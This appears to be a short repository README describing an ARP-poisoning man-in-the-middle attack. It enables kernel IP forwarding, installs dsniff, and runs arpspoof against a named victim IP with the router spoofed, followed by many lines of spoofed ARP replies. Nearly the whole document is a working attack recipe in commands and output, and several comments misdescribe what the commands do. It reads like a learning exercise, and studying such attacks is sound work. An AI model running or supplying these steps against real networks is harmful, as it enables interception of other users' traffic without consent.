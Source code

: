 # Man In the Middle (MITM) attach - ARP Poisioning

## Modify Routing Status

File: /proc/sys/net/ipv4/ip_forward  

It signifies the routing of the packets to the current machine, which means all the packets going the router will also get delivered to the current address as well [1].

Command to modifying the status the routing of the packet
```
// Mode changed to super user
sudo su
// Print 1
# echo 1 > /proc/sys/net/ipv4/ip_forward
// Concatenate 1 to 'ip_forward'
# cat /proc/sys/net/ipv4/ip_forward
```


## Perform packet spoof

Install **dsniff**: Library to perform the packet sniffing and spoofing
Command: `sudo apt-get install dsniff`

Command to spoof: 
`sudo arpspoof -i wlp2s0 -t 192.168.0.94 192.168.0.1`

Explanation: 
- wlp2s0: Device
- Victim Private IP: 192.168.0.94
- Router IP Address: 192.168.0.1

Output Screenshot:
![Screenshot](SpoofingResult.png)


Output:  
```
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
ac:7b:a1:84:eb:d5 d4:25:8b:d2:8d:4a 0806 42: arp reply 192.168.0.1 is-at ac:7b:a1:84:eb:d5
```


## Reference

1. https://unix.stackexchange.com/questions/14056/what-is-kernel-ip-forwarding